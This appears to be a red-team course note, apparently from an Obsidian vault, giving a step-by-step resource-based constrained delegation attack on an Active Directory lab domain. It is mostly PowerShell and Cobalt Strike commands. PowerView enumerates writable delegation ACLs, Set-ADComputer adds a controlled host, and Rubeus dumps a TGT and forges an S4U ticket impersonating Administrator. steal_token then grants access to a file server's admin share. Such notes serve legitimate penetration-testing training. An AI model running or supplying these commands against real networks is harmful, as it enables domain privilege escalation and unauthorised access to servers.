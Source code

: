 
> [!NOTE] **Note**
> This is much easier to do through a SOCKS proxy using PowerView
> 
> Setup found [here](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F10.%20Pivoting%2F_%20Main)

Import PowerView
```powershell
ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Setup credentials to be used
```powershell
‌$Cred = Get-Credential CONTOSO\rsteel
```

Find principals that have WriteProperty privileges on the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of computers.
```powershell
Get-DomainComputer -Server 'lon-dc-1' -Credential $Cred | Get-DomainObjectAcl -Server 'lon-dc-1' -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier
```

Resolve the SID to a domain group/user.
```powershell
Get-ADGroup -Filter 'objectsid -eq "SID"' -Server 'lon-dc-1' -Credential $Cred
```

Check for any existing RBCD configurations.
```powershell
Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

Add RBCD between _RBCD machine_ and _controlled host_, making sure not to overwrite the existing entry.
```powershell
$existing_entry = Get-ADComputer -Identity 'existing_RBCD_entry' -Server 'lon-dc-1' -Credential $Cred

$controlled_host = Get-ADComputer -Identity 'controlled_host' -Server 'lon-dc-1' -Credential $Cred

Set-ADComputer -Identity 'RBCD_Machine' -PrincipalsAllowedToDelegateToAccount $existing_entry,$controlled_host -Server 'lon-dc-1' -Credential $Cred
```

Verify that controlled host was added was added.
```powershell
Get-ADComputer -Identity 'RBCD_host' -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

In the high-integrity Beacon, obtain a TGT for the controlled host.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
```

Request a usable service ticket for cifs/RBCD_host impersonating the default domain administrator.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-wkstn-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /nowrap /ticket:
```

Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist
ls \\lon-fs-1\c$

rev2self       <--- Drop impersonation
kill [PID]
```